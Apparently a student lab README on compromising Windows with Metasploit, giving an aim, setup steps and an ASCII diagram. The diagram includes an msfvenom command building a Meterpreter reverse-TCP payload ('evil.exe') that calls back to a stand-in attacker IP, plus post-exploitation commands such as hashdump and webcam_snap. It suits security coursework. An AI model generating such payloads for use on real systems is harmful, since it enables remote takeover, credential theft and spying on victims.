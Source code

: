 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### Developed By: Koppala Naveen
### REGISTER NUMBER: 212223100023

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


## Architecture Diagram

```bash
## 🛠️ Metasploit Exploitation Architecture (Windows Target)


+----------------+                           +------------------+
|  🟢 Attacker    |      🔁 Reverse Shell      |   🔴 Victim (Win) |
|  (Kali Linux)  | <------------------------- |  Unpatched SMB   |
|  - msfconsole  |       (TCP 4444)          |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        |  ⚙️ Payload generation using msfvenom        |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload  
         LHOST=attacker_ip LPORT=4444               or exploit triggers  
         -f exe > evil.exe  

        |
        |  🧲 Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     🧠 Meterpreter Session Established (shell access)       |
+------------------------------------------------------------+
| Commands: sysinfo | hashdump | migrate | webcam_snap | etc |
+------------------------------------------------------------+
```